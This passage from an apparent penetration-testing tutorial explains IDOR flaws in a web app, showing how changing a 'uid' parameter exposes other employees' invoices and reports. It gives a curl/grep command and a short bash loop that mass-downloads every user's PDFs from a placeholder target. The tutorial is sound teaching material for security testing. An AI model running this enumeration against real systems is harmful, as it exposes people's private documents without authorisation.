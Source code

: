 The second user may not have all of these API parameters to replicate the call. However, we can try repeating the same API call while logged in as User2 to see if the web application returns anything.

## Mass IDOR Enumeration 

Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

### Insecure Parameters

Take for example a employee web. We access with our account, identify by `?userid=1`. Navigatint through the files we see some files like `/documents/Invoice_1_09_2021.pdf`{: .filepath} and `/documents/Report_1_10_2021.pdf`{: .filepath}. Files with a simply pattern, the name, the userid and a date. This is called **Static File IDOR**. However, we only can guess files that start by **Invoice** and **Report**. 

Now it's time to change the id: `?userid=2`. If the back-end end of the web application does have a proper access control system, we will get some form of **Access Denied**. Now we can see similar files to our own, but changing the `1` by `2`.

### Mass Enumeration 

We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. Manually accessing files is not efficient in a real work environment with hundreds or thousands of employees. So, we can either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all files or write a small bash script to download all files, which is what we will do.

Checking the source code we can see something like:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

With cURL and grep we can start the enumeration:
```console
zero@pio$ curl -s "http://<TARGET>/documents.php?uid=1" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

With a simple bash script:
```bash
#!/bin/bash

url="http://<TARGET>"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
